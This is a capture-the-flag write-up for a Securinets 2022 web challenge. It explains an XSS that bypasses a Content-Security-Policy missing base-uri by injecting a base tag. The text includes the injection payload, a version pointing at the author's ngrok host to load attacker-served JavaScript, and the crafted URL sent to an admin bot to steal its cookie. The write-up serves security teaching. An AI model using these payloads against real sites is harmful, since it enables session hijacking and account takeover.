 # Securinets-CTF-Finals-2022  
## XwaSS-ftw Writeup


This challenge was about achieving an XSS by bypassing the CSP

Challenge :

![image](https://user-images.githubusercontent.com/58823465/167916910-78285058-5944-4b8d-8de8-55650fc0cca5.png)


We can find the CSP in the source code 

``` 
<meta http-equiv="Content-Security-Policy" content="script-src 'nonce-uupQ2er9ZEFzu3';connect-src 'self';style-src 'self';font-src 'self';object-src 'none'">
```
First i checked if the "nonce" is a fixed string so we can abuse it but it seems to be dynamic so i ditched that idea quickly and used the CSP validator to get more of an idea about this CSP

![image](https://user-images.githubusercontent.com/58823465/167917258-82fea6ed-7a13-4b8c-838d-e240c89e3966.png)

We can see the the "base-uri missing" meaning we can use `` <base> `` tags and use a technique called Dangling Markup injection.

So to abuse this we can try and redirect to a url just to test if the base tags are working

We can use this payload

```
'><base href="https://example.com">
``` 

![image](https://user-images.githubusercontent.com/58823465/167918956-ef963dd8-37d1-4fcd-87af-441eee9ce375.png)

and we can notice in the console this particular error 

![image](https://user-images.githubusercontent.com/58823465/167918067-d5b8dc28-87d5-4709-90e0-dd8c7af14469.png)

This means it's trying to fetch the relative path `` /assets/js/bootstrap.js ``, so all we need to do is spin up our own server and add the same relative path and inject some xss in the file "bootstrap.js"

So this is the setup for the server 

![image](https://user-images.githubusercontent.com/58823465/167920326-329be168-ac77-4f9f-aca2-84f29e83bb7a.png)

**note: Make sure to start your ngrok server in the same directory for the /assets/js/bootstrap.js**

so using the payload :

``` '><base href="http://7923-41-225-41-253.ngrok.io"> ```


![image](https://user-images.githubusercontent.com/58823465/167920555-2f43deff-dbb3-4247-a1ba-d16c38d5f14d.png)


And yes !! we get an XSS !!

Now all we have to do is to steal the admin cookie through the report endpoint with our custom ngrok server

![image](https://user-images.githubusercontent.com/58823465/167920820-9cd44941-e9f6-4c1d-b9e9-ee23bd8cd03b.png)


and then we send this url to the admin to steal his cookie !

```http://challenge_link/index.php?src='><base href="http://7923-41-225-41-253.ngrok.io">```

![image](https://user-images.githubusercontent.com/58823465/167921246-78c3a39f-7b38-456c-9890-a611819ca7de.png)



And there you go !! we found our flag :D


``` Flag : Securinets{CSP_W1Th_BaSE_Is_GooD_Nah?} ```


Resources : 

https://klefz.se/2020/11/10/bugpoc-xss-ctf-november-2020-write-up/

https://book.hacktricks.xyz/pentesting-web/content-security-policy-csp-bypass


